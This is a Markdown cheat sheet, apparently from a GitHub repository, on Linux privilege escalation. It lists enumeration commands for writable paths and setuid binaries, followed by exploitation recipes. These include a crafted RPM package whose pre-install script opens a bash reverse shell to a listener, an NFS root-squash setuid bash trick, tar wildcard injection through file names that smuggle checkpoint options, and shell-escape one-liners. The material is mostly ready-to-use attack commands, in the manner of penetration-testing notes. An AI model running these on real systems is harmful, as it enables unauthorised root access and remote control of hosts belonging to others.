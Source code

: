 # Linux Privilege Escalation

## Enumeration
___
### Files and folders
- Look for writable directories
```sh
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

- Look for writable directories in PATH
```sh
IFS=':'; read -a patharr <<< "$PATH"; for dir in ${patharr[@]}; do if [ -w $dir ]; then echo -e "$dir : WRITABLE"; fi; done;
```

- Look for writable files
```sh
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

- Look for group membership / special access
```sh
id
find / -type f -group group_name 2> /dev/null
```

- Look for scripts/binaries with setuid
```sh
find / -perm -u=s -type f 2>/dev/null
find / -perm /4000 2>/dev/null
IFS=$'\n'$'\r'; for item in $(find / -perm /4000 2>/dev/null); do if [ -w $item ]; then echo -e "$item : WRITABLE"; fi; done;
```

- Look for scripts/binaries with setgid
```sh
find / -perm /2000 2>/dev/null
IFS=$'\n'$'\r'; for item in $(find / -perm /2000 2>/dev/null); do if [ -w $item ]; then echo -e "$item : WRITABLE"; fi; done;
```

- Sneak into /var/log/audit
```sh
grep comm=\"su\" /var/log/audit/*
```

### Cron jobs
- Look for cron jobs executed as root
```
TODO
```

- Look for writable script/binaries from above cron jobs
```
TODO
```

### Binaries

- Look inside binaries for exploit possibilities
```
strings /path/to/binary
```
> If we find calls to an executable using relative path, we can create a malicious script using the binary name and update PATH to include the folder

## Exploitation
___

### YUM
- Get a reverse shell using crafted rpm package

If low priv user can run yum as root, we can craft a rpm package to get a reverse shell as root:
```sh
# Create a script with reverse shell commands
cat << EOF > root.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'
EOF

# Then use fpm docker image to build the rpm:
docker run --rm -v $(pwd):/data skandyla/fpm -n packagename -s dir -t rpm -a all --before-install /data/root.sh  -p /data /data
# Start an HTTP server and tcp listener
python -m SimpleHTTPServer 8000
nc -lnvp 4444
# On the target machine, install the rpm package:
sudo yum install http://0.0.0.0:8000/root-1.0-1.noarch.rpm
```

### NFS

- Exploit rootsquash
```sh
# Copy a bash binary to mounted NFS
cp bash /mount/point/to/nfs
# Set owner to root
sudo chown root /mount/point/to/nfs/bash
# Set uid on binary
chmod a+sx /mount/point/to/nfs/bash
# Run the binary in low privilege shell
./bash -p (in low privilege shell)
```

### Wildcard Injection

- Exploit tar with wildcard
```sh
# Example tar command: cd /folder; tar cf /backup.tgz *
# Exploit this with checkpoint injection:
cd /folder
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
# Wait for tar to run as root
```

### Shell escape sequence
| Tool | Escape Sequence |
| --- | --- |
| vi/vim | `:!/bin/bash`, `:set shell=/bin/bash:shell` |
| awk | `awk 'BEGIN {system(\"/bin/bash\")}'` |
| perl | `perl -e 'exec \"/bin/bash\";'` |
| find | `find / -exec /usr/bin/awk 'BEGIN {system(\"/bin/bash\")}' \\;` |
| nmap | `--interactive` |

## Links
___
### Guides
- https://book.hacktricks.xyz/linux-unix/privilege-escalation
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks
- https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/

### Writeups
- https://blog.tryhackme.com/skynet-writeup/